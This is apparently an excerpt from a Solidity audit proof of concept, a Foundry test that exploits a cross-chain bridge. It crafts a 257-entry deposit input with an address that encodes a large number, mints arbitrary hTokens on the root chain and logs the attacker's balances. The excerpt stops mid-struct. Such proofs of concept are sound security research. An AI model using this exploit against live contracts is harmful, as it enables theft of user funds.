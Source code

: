 ```solidity
        avaxMulticallBridgeAgent.callOutSignedAndBridgeMultiple{value: 0.00005 ether}(params, dParams, remoteExecutionGas);
        
        // get attacker's virtual account address
        address vaccount = address(rootPort.getUserAccount(attacker));

        console2.log("Attacker h token balance avax", ERC20hTokenBranch(avaxMockAssethToken).balanceOf(attacker));        
        console2.log("Attacker underlying balance avax", avaxMockAssetToken.balanceOf(attacker));

        console2.log("Attacker h token balance root", ERC20hTokenRoot(globalAddress).balanceOf(vaccount));
    
        console2.log("ARBITRARY MINT LOG END");
		    console2.log("------------------");

    }

    function _prepareAttackVector() internal view returns(DepositMultipleInput memory) {
        
        // hToken address
        address addr1 = avaxMockAssethToken;

        // underlying address
        address addr2 = address(avaxMockAssetToken);

        // 0x2FAF0800 when encoded to bytes and then cast to uint256 = 800000000 
        address malicious_address = address(0x2FAF0800);
        
        uint256 amount1 = 0;
        uint256 amount2 = 0;

        uint num = 257;
        address[] memory htokens = new address[](num);
        address[] memory tokens = new address[](num);
        uint256[] memory amounts = new uint256[](num);
        uint256[] memory deposits = new uint256[](num);

        for(uint i=0; i<num; i++) {
            htokens[i] = addr1;
            tokens[i] = addr2;
            amounts[i] = amount1;
            deposits[i] = amount2;
        }
    
        // address of the underlying token
        htokens[1] = addr2;
      
        // copy of entry containing the arbitrary number of tokens
        htokens[2] = malicious_address;
        
        // entry containing the arbitrary number of tokens -> this one will be actually fed to mint on Root
        htokens[3] = malicious_address;
       
        uint24 toChain = rootChainId;

        // create input
        DepositMultipleInput memory input = DepositMultipleInput({
            hTokens:htokens,
            tokens:tokens,
            amounts:amounts,
            deposits:deposits,
```